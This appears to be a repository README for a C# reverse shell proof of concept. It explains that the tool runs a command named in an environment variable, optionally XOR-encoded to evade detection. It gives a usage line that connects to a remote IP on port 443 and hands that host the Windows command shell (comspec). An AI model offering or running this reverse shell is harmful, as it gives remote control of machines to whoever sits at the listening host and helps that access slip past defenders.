 # csharp_reverse_shell
c# reverse shell poc

Executes whatever is set in the specified environment variable (3rd argument),

The environment variable can also be passed as an XORed string with an integer (4th argument) for opsafety --yeah right

All arguments are required,

e.g > csharp_reverse_shell.exe 192.168.205.13 443 comspec 00
